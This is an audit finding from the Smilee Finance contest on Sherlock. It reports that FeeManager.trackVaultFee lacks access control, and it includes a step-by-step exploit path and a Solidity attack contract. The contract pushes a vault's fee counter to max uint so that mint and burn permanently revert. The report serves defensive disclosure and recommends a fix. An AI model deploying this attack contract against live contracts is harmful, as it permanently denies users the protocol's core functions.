 Wobbly Azure Rattlesnake

medium

# DVP's _mint/_burn function could be DoS by FeeManager.

## Summary
Attacker could deploy malicious contract which conform to IDVP interface, then use it to call FeeManager.trackVaultFee(), set vaultFeeAmounts[vault] to max uint, make DVP's _mint/_burn (and IG's mint/burn) function unusable.

## Vulnerability Detail
In DVP, _burn and _mint function use FeeManager.trackVaultFee() to record vault fee:
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/DVP.sol#L178
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/DVP.sol#L329

In FeeManager.trackVaultFee(), vault fee is recorded in public mapping vaultFeeAmounts:
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/FeeManager.sol#L218-L227

Thus, there is an exploit path:
1, Attacker deploy a malicious contract that conform to IDVP and has 'vault' variable equals to victim IG's vault.
2, Attacker use this contract to call FeeManager.trackVaultFee(), set vaultFeeAmounts[vault] to max uint
3, Now in the situation when common user try to call mint/burn function in IG, and vault fee is not zero, function will revert due to vaultFeeAmounts[vault] overflow in FeeManager.trackVaultFee().
4, Because this is no other way to change or decrease vaultFeeAmounts[vault], this IG will lose it's mint/burn function forever.

Malicous contract example below:
```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.15;

interface IFeeManager {
    function trackVaultFee(address vault, uint256 feeAmount) external;
    function vaultFeeAmounts(address) external view returns(uint256);
}


contract Attack {
    address public vault;
    address public feeManager;

    constructor(address IGVaultAddr, address feeManagerAddr) {
        vault = IGVaultAddr;  // send victim IG's vault here.
        feeManager = feeManagerAddr;
    }

    function attack() public {
        IFeeManager FM = IFeeManager(feeManager);
        // caculate how much vault fee to add to reach max uint.
        uint256 toMaxUint = type(uint256).max - FM.vaultFeeAmounts(vault);
        // set vaultFeeAmounts[vault] to max uint.
        FM.trackVaultFee(vault, toMaxUint);
    }

    ...

}
```

## Impact
The mint/burn function of DVP/IG could be Dos.

## Code Snippet
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/DVP.sol#L120-L195
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/DVP.sol#L231-L332
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/FeeManager.sol#L218-L227

## Tool used

Manual Review

## Recommendation
The key of exploit is anyone could call trackVaultFee, add access control so that only dvp can call trackVaultFee is a solution.